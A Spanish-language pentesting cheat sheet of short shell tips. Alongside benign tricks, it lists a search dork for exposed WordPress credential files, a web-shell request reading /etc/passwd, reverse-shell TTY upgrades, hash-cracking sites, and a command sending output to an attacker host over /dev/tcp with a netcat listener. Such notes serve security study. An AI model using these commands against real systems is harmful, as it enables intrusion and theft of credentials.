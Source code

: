 - Kill %  o Kill $!--> matar proceso que acabo de dejar en 2º plano

- Reduce el tamaño de ejecutables 
1. go build -ldflags "-s -w"

- upx ffuf --> le quita peso al binario

- Enviar errors fuera de la terminal y hacer independiente la ventana
1. burpsuite captura.cap &> /dev/null & disown

- Encontrar credens de bases de datos de wordpress
1. inurl:wp-config.php.txt

- Saber Sistema operativo por TTL
 1. https://subinsb.com/default-device-ttl-values/

- Terminal interactiva una vez reverse shell
1. script /dev/null -c bash

- Saber qué shell es
1. echo $0

- Ir al directorio anterior --> pushd, popd

- Poner colores a la lectura de un script
1. cat -l bash

- **rlwrap**
1. Sirve para adaptar las shells de forma interactiva

- **Páginas de crackeo**
1. [Crackthehash](https://hashes.com)
2. [Crackstation](https://crackstation.com)
3. [OnlineHashCrack](https://www.onlinehashcrack.com/)

- Dónde está el binario y ver info con ll sin mover del directorio
1. which nmap | xargs ls -la

- Copiar contenido de un archivo sin meterse en él
```bash
cat archivazo.txt | xclip -sel clip
```


- **ctrl+ u** en una web para que salga un json o cualquier archivo con un formato correcto
- si un user pertenece al grupo **adm**, será capaz de ver los logs de cualquier app
- Para URL encodear y mandar data como con **--data** con curl
```bash
curl -s -X GET "http://localhost:puerto/upload/archivo.php" -G --data-urlencode "cmd=cat /etc/passwd"
```

- PAra enviar comandos a un puerto en escucha



```bash
`whoami > /dev/tcp/ipatacante/8080 0>&1`
nc -nlvp 8080
```